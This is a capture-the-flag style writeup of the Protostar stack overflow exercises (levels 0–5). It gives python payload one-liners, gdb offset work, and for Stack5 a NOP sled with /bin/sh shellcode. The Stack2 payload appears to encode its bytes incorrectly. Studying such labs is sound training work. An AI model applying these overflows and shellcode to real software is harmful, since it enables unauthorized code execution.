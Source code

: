 # Exploit-Exercises Protostar Writeup - Stack
## Before Start
Here are some readings to help you understand the stack
[How to smash stack](http://insecure.org/stf/smashstack.html)

## [Stack0](https://exploit-exercises.com/protostar/stack0/)
This is a very basic overflow. Any input having a length greater than 64 works. 


## [Stack1](https://exploit-exercises.com/protostar/stack1/)
On this level, we have to overwrite the value of 'modified' to 0x61626364, which is "abcd" in ascii characters. Protostar is little endian, so we have to reverse it when we write it into a stack.    
	```./stack1 $(python -c 'print "A"*64+"dcba"')```   


## [Stack2](https://exploit-exercises.com/protostar/stack2/)
This one is almost the same as the previous one. The only difference is the buffer comes from a environment variable called "GREENIE".   
We should set the environment variable and then run the program. The commands are:    
	```
	export GREENIE=$(python -c 'print "A"*64+"0x0a0x0d0x0a0xd"')
	./stack2
	```


## [Stack3](https://exploit-exercises.com/protostar/stack3/)
This time, the varaible can be overwritten is a pointer to a function. So what we need to do is find out the address of win() and use this value to overwrite *fp (in little endian).    
Use command ```objdump -D stack3|grep win```. Now we find the address of win() is 08048424.   
Looking at the source code, we can see the buffer comes from standard input this time. So the command should be:     
	```python -c 'print "A"*64+"\x24\x84\x04\x08"' | ./stack3```    


## [Stack4](https://exploit-exercises.com/protostar/stack4/)
This challenge is about EIP overwrite. There's no variable lying on the buffer again. When we overflow the buffer, we will first overwirte the saved EBP(4 Byte), and saved EIP(4 Byte).    
So in this case, the length of the padding will be 64+4=68. And we also need to get the address of win() just as we did in last challenge. It's 080483f4. Now run it! Ooooooops! It failed!! It apperars that there's something more than saved EBP lying between the buffer and the saved EIP. We can use gdb to find it out. (You can also use a pattern long enough to overwrite the EIP and then locate it, as the program will show the error information.)     
We start gdb and set a breakpoint at main(). Then give serveral "A" as the input. We know it will not work, but it can help us to locate the start address of the buffer. Then we use ```info frame``` to check the address of saved eip. We can see it's at 0xbffff7dc.     
![stack4_1](./images/stack4_1.png)     
Now let's look at the data in this frame. It's easy to find that the buffer start at address 0xbffff790. So we can get the length of our padding by calculating 0xbffff7dc-0xbffff790=76. I also look at why we get 8 bytes more than expected. It saves the address of __libc_csu_init and another 4 null bytes. (I didn't figure out the purpose of it)    
![stack4_2](./images/stack4_2.png)
The command should be:    
	```python -c 'print "A"*76+"\xf4\x83\x04\x08"' | ./stack4```    


## [Stack5](https://exploit-exercises.com/protostar/stack5/)
In this challenge, we need to exploit the buffer overflow to execute shellcode. I have no idea about what shellcode is expected in this challenge. So I decide to start first. 
The buffer start at address 0xbffff7d0. Saved EIP is at 0xbffff81c. The length is still 76. What we gonna do is to overwrite the saved EIP with the address after, and fill the buffer with our paddings. 
So the structure will look like padding + address + payload(shellcode). The payload can be found on [shell-storm.org](shell-storm.org). I use the 28 Bytes execve(/bin/sh). And then.. I got an "Illegal instrction" error. The reason can be that when the program acturally run, the address may be different with that in gdb. So instead of find out the specific address, we can use a bunch of NOP instruction (\x90) before our shellcode. We just need to make our eip point into the middle of the NOPs, then our shellcode will work.     
The structure of the input looks like:     
```"A"*76+"\x60\xf8\xff\xbf"+"\x90"*300+[shellcode]```    
And when I run the program, there's no more errors, but also no shell executed. This is not what we want. So I turned to gdb again. Then I found something really weird: when I use gdb to dubug it, the shell is actually executed.    
I stuck here for a really long time. I then searched online and found two solutions.    
[1](http://liveoverflow.com/binary_hacking/protostar/stack5.html)    
[2](https://www.mattandreko.com/2011/12/17/exploit-exercises-protostar-stack-5/)
I prefer the second one. So I changed my shellcode, and it works perfectly.     
The whole command will be:    
```python -c 'print "A"*76+"\x60\xf8\xff\xbf"+"\x90"*300+"\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"' | ./stack5```    


## [Stack6](https://exploit-exercises.com/protostar/stack6/)
## [Stack7](https://exploit-exercises.com/protostar/stack7/)
